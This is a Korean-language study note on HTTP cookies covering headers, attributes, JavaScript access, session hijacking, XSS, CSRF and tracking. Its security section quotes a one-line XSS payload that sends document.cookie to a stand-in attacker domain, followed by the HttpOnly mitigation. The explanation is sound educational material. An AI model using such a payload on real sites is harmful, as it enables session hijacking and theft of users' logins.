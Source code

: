 ```yaml
---
title: "💻 HTTP #3: 쿠키"
categories: network
tags: [ network ]
---
```


# HTTP 쿠키

## HTTP 쿠키란?

HTTP쿠키는 서버가 사용자의 웹 브라우저에 전송하는 작은 데이터 파일이다. 헨젤과 그레텔에서 주인공이 길을 지나며 남긴 빵 부스러기와 같다고 해서 붙여진 이름이다. 클라이언트는 그 데이터 파일을 저장해 놓았다가, 동일한 서버에 재 요청할 때 전송한다. 쿠키는 요청을 보낸 브라우저를 식별하는 데 주로 사용하며, 상태가 없는(stateless) HTTP 프로토콜에서 상태 정보를 기억시켜준다. 

## 쿠키의 목적

- 세션 관리(Session management)
  - 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
- 개인화(Personalization)
  - 사용자 선호, 테마 등의 세팅
- 트래킹(Tracking)
  - 사용자 행동을 기록하고 분석하는 용도

## 클라이언트 측의 데이터 저장

데이터를 클라이언트 측에 저장할 때 쿠키를 사용하던 과거와 달리 지금은 modern storage APIs를 사용할 것이 권장된다. 쿠키는 모든 요청마다 함께 전송되기 때문에 성능이 저하될 수 있기 때문이다.

## 저장된 쿠키 보기

- 개발자 도구 > Storage Inspector -> 스토리지 트리의 쿠키 스토리지

## 쿠키 만들기

### Set-Cookie 응답헤더와 Cookie 요청헤더

- `Set-Cookie`: 서버: 클라이언트야 쿠키 저장해!

```
Set-Cookie: 쿠키이름=쿠키값
Set-Cookie: 쿠키이름=쿠키값
```

- `Cookie`: 브라우저: 서버로 이전에 저장했던 모든 쿠키들 회신

```
Cookie: 쿠키이름1=쿠키값1; 쿠키이름2=쿠키값2
```

### Session 쿠키와 Permanent 쿠키

`Expires`나 `Max-Age`를 명시하지 않을 경우 클라이언트가 종료되면 삭제되는 **Session 쿠키**가 된다.  명시하면 클라이언트가 닫힐 때 만료되지 않는 **Permanent 쿠키**가 된다.

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; // Permanent 쿠키
```

### Secure 쿠키와 HttpOnly 쿠키

쿠키에 **Secure** 옵션을 줄 경우 **Https 프로토콜** 상에서 암호화된 요청일 경우만 전송된다.  **HttpOnly** 옵션을 줄 경우, **자바스크립트를 통해 쿠키 값에 접근하는 것을 막아** Cross-site 스크립팅 공격을 누그러뜨리는 데 도움을 줄 수 있다. 



### 쿠키의 스코프: Domain과 Path 속성

- `Domain`과 `Path` 디렉티브를 통해 특정 도메인 혹은 경로 제한 설정이 가능하다.
- `Domain`: 서브도메인 포함
  - 예를 들어, `Domain=naver.com`가 설정되면 쿠키들이 `dict.naver.com`, `news.naver.com`과 같은 서브 도메인 상에도 포함된다. 
- `Path`: 서브 디렉토리 포함
  - 예를 들어, `Path=/docs`가 설정되면 쿠키들이 `/docs`, `docs/Web/`, `docs/HTTP`와 같은 서브 디렉토리 상에도 포함된다.



### SameSite 쿠키

SameSite 쿠키는 쿠키가 cross-site 요청과 함께 전송되지 않게 한다.

### Document.cookie를 사용한 자바스크립트 접근

- `Document.cookie`를 사용해 쿠키를 만들어낼 수 있다. `HttpOnly`플래그가 설저어되지 않은 경우 기본 쿠키들은 자바스크립트로부터 잘 접근될 수 있다

```javascript
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy+cookie=choco; tasty_cookie=strawberry";
```



## 보안

### 세션 하이재킹과 XSS(Cross-Site Script**)**

**세션 하이재킹**이란 서버와 클라이언트 사이에서 이루어지는 통신에 낑겨서 클라이언트가 서버로 붙어 있는 세션을 탈취해오는 기술이다. **XSS(Cross-Site Script, 사이트 간 스크립팅)**는 권한이 없는 유저가 사이트 내에 악의적인 스크립트를 삽입하여 사용자의 쿠키, 세션 등을 탈취하거나, 의도하지 않은 비정상적인 행위를 하게끔 유도할 수 있는 취약점이다. 

HTTP 통신은 Stateless하기 때문에 기본적으로는 로그인을 해도 페이지 이동 시 로그아웃이 될 것이다. 따라서 서버는 세션을 이용하여 로그인 상태를 기억한다. 서버는 **Session** ID를 사용자에게 부여해주고 사용자는 쿠키를 이용해 Session ID를 저장한다. 공격자는 사용자와 서버 사이에 부여된 세션을 가로채 해당 사용자의 권한으로 사이트를 접근할 수 있게 된다. 소셜 공학을 사용하거나 애플리케이션 내의 XSS 취약점을 이용하여 쿠키를 가로챌 수 있다.

```javascript
(new Image()).src = "https://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

그렇다면 이를 방지하기 위해서는 어떻게 해야 할까? 쿠키에 `HttpOnly` 속성을 주면 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 공격을 누그러뜨리는 데 도움을 줄 수 있다.

### Cross-site 요청 위조 (CSRF)

불특정 다수를 대상으로 로그인된 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위(수정, 삭제, 등록 등)을 요청하게 하는 공격이다. XXS을 이용한 공격이 사용자가 특정 웹사이트를 신용하는 점을 노린 것이라면, 사이트간 요청 위조는 특정 웹사이트가 사용자의 웹브라우저를 신용하는 상태를 노린 것이다. 사용자가 웹사이트에 로그인한 상태에서 사이트간 요청 위조 공격 코드가 삽입된 페이지를 열면, 공격 대상이 되는 웹사이트는 위조된 공격 명령이 믿을 수 있는 사용자로부터 발송된 것으로 판단하게 되어 공격에 노출된다.



## 트래킹과 프라이버시

### 서드파티 쿠키

퍼스트파티 쿠키는 웹사이트 운영자가, 서드파티는 외부 업체가 심는 것이다. 브라우저가 서드파티 쿠키를 지원하면 쿠키를 인터넷 광고 업체 등 제3자에게 제공하는 것으로 기업 광고의 주요 자원이 된다. 광고주는 해당 쿠키로 이용자 성향을 파악해 타겟팅 광고를 할 수 있다. 그러나 이로 인한 개인 정보 침해 문제로 최근 많은 브라우저에서 서드파티 쿠키 지원을 중단하겠다고 발표했다. 

### DNT 요청 헤더 (Do Not Track)

사이트 내부 혹은 사이트간 트래킹 모두를 비활성화하는 신호로 사용된다.

### 좀비 쿠키와 에버쿠키

좀비 쿠키는 삭제 이후에 다시 생성되는 쿠키이다. 클라이언트 측 스크립트가 여러 곳(웹 스토리지 API, Flash로컬 공유 객체 등)에 쿠키 내용을 저장하고, 스크립트가 쿠키가 없음을 알아차리면 각 위치에 저장되어 있는 데이터를 사용하여 쿠키를 재생성한다. Evercookie는 좀비 쿠키를 생산하는 자바스크립트 기반 어플리케이션이다. 



## Reference

1. https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies

2. 생활코딩: Node.js - 쿠키와 인증 시리즈: https://youtu.be/i51xW3eh-T4

3. [https://ko.wikipedia.org/wiki/%EC%82%AC%EC%9D%B4%ED%8A%B8_%EA%B0%84_%EC%9A%94%EC%B2%AD_%EC%9C%84%EC%A1%B0](https://ko.wikipedia.org/wiki/사이트_간_요청_위조)

4. http://it.chosun.com/site/data/html_dir/2020/02/16/2020021600579.html

5. https://gmyankee.tistory.com/86

6. http://wiki-camp.appspot.com/%5B%EB%B2%88%EC%97%AD%5D_HTTP_Cookie_%28Wikipedia%29?rev=2

7. https://ko.wikipedia.org/wiki/%EC%B6%94%EC%A0%81_%EA%B8%88%EC%A7%80

